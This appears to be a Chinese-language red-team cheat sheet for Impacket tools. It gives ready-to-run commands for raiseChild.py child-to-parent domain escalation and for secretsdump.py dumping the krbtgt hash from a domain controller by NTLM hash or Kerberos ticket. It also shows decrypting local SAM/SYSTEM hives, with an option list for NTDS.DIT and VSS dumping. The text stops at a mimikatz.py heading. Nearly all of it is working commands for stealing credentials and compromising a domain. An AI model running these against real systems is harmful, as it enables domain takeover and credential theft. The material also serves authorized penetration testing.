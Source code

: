 ### raiseChild.py(无环境)

可使用密码认证、hash认证、Kerberos认证

#### 常用命令

```plain
py -3 raiseChild.py childDomain.net/adminuser:mypwd
```

#### 常用选项

## Windows密码

### secretsdump.py

#### 常用命令

**基于NTLM认证，使用机器用户导出**

```plain
py -3 secretsdump.py -hashes 5f8506740ed68996ffd4e5cf80cb5174:5f8506740ed68996ffd4e5cf80cb5174 "domain/DC\$@DCIP" -just-dc-user krbtgt
```

**基于Kerberos票据导出**

```plain
export KRB5CCNAME=ad01.ccache 
py -3 secretsdump.py -k -no-pass AD01.test.com -dc-ip 192.168.111.146 -target-ip 192.168.111.146 -just-dc-user krbtgt
```

**本地解密SAM**

```plain
py -3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

#### 常用选项

> \-system SYSTEM SYSTEM文件  
> \-security SECURITY security文件  
> \-sam SAM SAM文件  
> \-ntds NTDS NTDS.DIT文件  
> \-resumefile RESUMEFILE 待恢复的NTDS.DIT转储文件  
> \-outputfile OUTPUTFILE 输出的文件名  
> \-use-vss 使用vss卷影替代DRSUAPI  
> \-rodcNo RODCNO Number of the RODC krbtgt account (only avaiable for Kerb-Key-List approach)  
> \-rodcKey RODCKEY AES key of the Read Only Domain Controller (only avaiable for Kerb-Key-List approach)  
> \-use-keylist 使用KerberosKeyList转储TGS-REQ  
> \-exec-method \[{smbexec,wmiexec,mmcexec}\] 使用vss卷影导出时执行命令的方法，分别有smbexec、wmiexec、mmcexec

### mimikatz.py
